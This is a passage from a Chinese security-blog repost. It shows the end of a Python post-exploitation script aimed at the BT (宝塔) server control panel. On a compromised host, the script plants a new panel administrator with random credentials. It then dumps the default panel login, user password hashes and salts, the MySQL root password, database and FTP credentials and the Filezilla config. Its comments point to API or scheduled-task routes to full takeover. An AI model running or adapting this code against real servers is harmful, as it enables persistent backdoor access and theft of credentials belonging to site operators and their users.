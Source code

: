 ```
                 ||----w |
                 ||     ||
    ''')
if __name__ == '__main__':
    banner()
    bt = BT()
    print('===========================================')
    print(f'登录位置：{bt.get_panel_path()}')
    print(f'默认账号：{bt.get_default_username()}')
    print(f'默认密码：{bt.get_default_password()}')
    print()
    salt = bt.get_random_string(12)
    username = bt.get_random_string(6)
    password = bt.get_random_string(10)
    print(f'尝试写入 账号:{username} 密码：{password} 的面板用户：')
    print(f'{bt.insert_panel_user(username, password, salt)}')
    print('===========================================')
    print('面板用户信息：')
for user in bt.get_all_user():
        print(f'账号：{user[0]}, 密码：{user[1]}, 盐：{user[2]}')
    print('===========================================')
    print('面板API状态：')
    print(f'{bt.get_api_information()}')
    print('如果已开启且限制IP为服务器IP可以端口转发直接秒！')
    print('===========================================')
    print(f'MySQL root密码：{bt.get_mysql_root_password()}')
    print('===========================================')
    print('数据库用户信息：')
for db_user in bt.get_database_users():
        print(f'库名：{db_user[0]}, 用户：{db_user[1]}, 密码：{db_user[2]}, 类型：{db_user[3]}')
    print('===========================================')
    print('FTP用户信息：')
for ftp_user in bt.get_ftp_users():
        print(f'用户：{ftp_user[0]}, 密码：{ftp_user[1]}')
    print('===========================================')
    print('Filezilla Interface配置信息：')
    print(f'{bt.get_filezilla_interface()}')
    print('如果已安装可以通过API或计划任务直接秒！')
    print('===========================================')
```

来源 Github  

如有侵权，请联系删除

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)

如文章对你有帮助，请支持点下 “赞”“在看”